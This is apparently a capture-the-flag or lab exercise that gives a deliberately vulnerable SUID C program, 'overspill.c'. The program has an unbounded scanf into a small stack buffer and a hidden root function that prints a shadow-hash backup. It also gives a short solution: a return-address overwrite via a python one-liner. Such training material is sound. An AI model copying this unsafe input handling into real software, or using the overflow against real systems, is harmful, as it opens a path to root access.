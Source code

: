 **Dated: 12 Jan 2021**\
**Filename: overspill.c**

On Kali box create vulnerable application by running: `gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 overspill.c -o overspill.obj`\
Copy the `overspill.obj` to `Debian10 - 32bit`\
Chown it to root:root & give set the SUID bit set.\
"shadow_backup_sensitiveFile" will have the SHA512 hash of root.

```c
#include <stdio.h>                                                                                                                                          
#include <string.h>                                                                                                                                         
#include <stdlib.h>                                                                                                     
#include <sys/types.h>                                                                                                            
#include <unistd.h>                                                                                                                                         
                                
int main()                                                                                                                        
{                                                                             
int temp=0;                            
char userinput[23];                                                                                                                                         
printf("\n*** Welcome to Overspill software v2.0 ~ by MicrooSooft (° ʖ °)*** \n");                                                                                                                   
printf("\nCreation date: ~19Nov2020");                                                           
printf("\nPlease enter your input:");                                                                                                                       
scanf("%s",&userinput);                    
printf("Your input was -> %s\nNice Input, I liked it\nByeBye (｡◕‿◕｡)\n",userinput);                                                                                           


return 0;                                       
}                                               

void read_sensitive_file(void)                                                                   
{                                               
        printf("\nWTF!!! How the hell, did you get into this secret function\n");                                                                                                                  
        setuid(0);                                     
        setgid(0);                                     

        system("/bin/cat shadow_backup_sensitiveFile");
}
```

**Solution**
> strings overspill.obj
> readelf -s ./overspill.obj | grep read
> python -c 'print("A"*35+"<address read_sensitive_file")' | ./overspill.obj
